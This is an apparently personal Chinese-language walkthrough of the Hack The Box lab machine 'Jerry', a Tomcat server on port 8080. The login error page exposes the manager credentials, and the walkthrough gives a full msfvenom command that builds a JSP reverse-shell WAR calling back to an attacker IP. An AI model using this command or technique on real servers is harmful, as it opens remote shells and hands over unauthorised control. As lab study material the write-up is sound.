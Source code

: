 ```yaml
---
{"dg-publish":true,"permalink":"/hackthebox 靶场/htb 靶场 jerry Windows/","tags":["靶场","windows","hackthebox","oscp"]}
---
```


![image.png](https://s2.loli.net/2025/06/21/vePFNrjIm3ZEw6c.png)

## 端口扫描
![image.png](https://s2.loli.net/2025/06/21/Qav2lDAfLwF3mKB.png)

只有一个 8080 端口

## web 服务信息收集
这是个 tomcat，看看有什么能利用的漏洞吗
![image.png](https://s2.loli.net/2025/06/21/jrzUlyF5DMda3Ye.png)

点击 manager app 可以发现要输入账密。随便输点东西就会爆出账密
![image.png](https://s2.loli.net/2025/06/21/5JmEYzDXckyZupC.png)

## 上传反弹 shell
进入管理界面，我们可以考虑一波。上传 war 的反弹 shell
![image.png](https://s2.loli.net/2025/06/21/5KMGpnQujBCt2sX.png)

用 msfvennom 制作木马
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.12 LPORT=8888 -f war -o shell.war
```

![image.png](https://s2.loli.net/2025/06/21/byXCckwUJi7PNML.png)


![image.png](https://s2.loli.net/2025/06/21/HFIcts9KQuqU3pf.png)

反弹 shell 成功

![image.png](https://s2.loli.net/2025/06/21/fyAKjGzdN1VMETx.png)

还是最高权限的用户

## 找 flag
![image.png](https://s2.loli.net/2025/06/21/Jq9puZfNOUDBkgL.png)



